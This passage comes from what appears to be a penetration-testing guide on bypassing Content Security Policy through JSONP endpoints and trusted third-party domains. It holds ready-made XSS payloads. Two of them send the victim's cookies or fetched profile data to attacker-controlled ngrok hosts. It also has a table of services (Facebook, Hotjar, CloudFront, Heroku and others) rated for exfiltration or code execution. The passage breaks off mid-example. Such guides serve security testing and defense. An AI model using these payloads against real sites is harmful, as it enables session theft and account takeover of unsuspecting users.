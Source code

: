 ```html
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```

[**JSONBee**](https://github.com/zigoo0/JSONBee) **contains ready to use JSONP endpoints to CSP bypass of different websites.**

The same vulnerability will occur if the **trusted endpoint contains an Open Redirect** because if the initial endpoint is trusted, redirects are trusted.

### Third Party Abuses

As described in the [following post](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses), there are many third party domains, that might be allowed somewhere in the CSP, can be abused to either exfiltrate data or execute JavaScript code. Some of these third-parties are:

| Entity            | Allowed Domain                               | Capabilities |
| ----------------- | -------------------------------------------- | ------------ |
| Facebook          | www.facebook.com, \*.facebook.com            | Exfil        |
| Hotjar            | \*.hotjar.com, ask.hotjar.io                 | Exfil        |
| Jsdelivr          | \*.jsdelivr.com, cdn.jsdelivr.net            | Exec         |
| Amazon CloudFront | \*.cloudfront.net                            | Exfil, Exec  |
| Amazon AWS        | \*.amazonaws.com                             | Exfil, Exec  |
| Azure Websites    | \*.azurewebsites.net, \*.azurestaticapps.net | Exfil, Exec  |
| Salesforce Heroku | \*.herokuapp.com                             | Exfil, Exec  |
| Google Firebase   | \*.firebaseapp.com                           | Exfil, Exec  |

If you find any of the allowed domains in the CSP of your target, chances are that you might be able to bypass the CSP by registering on the third-party service and, either exfiltrate data to that service or to execute code.

For example, if you find the following CSP:

```
Content-Security-Policy​: default-src 'self’ www.facebook.com;​
```

or

```
Content-Security-Policy​: connect-src www.facebook.com;​
```
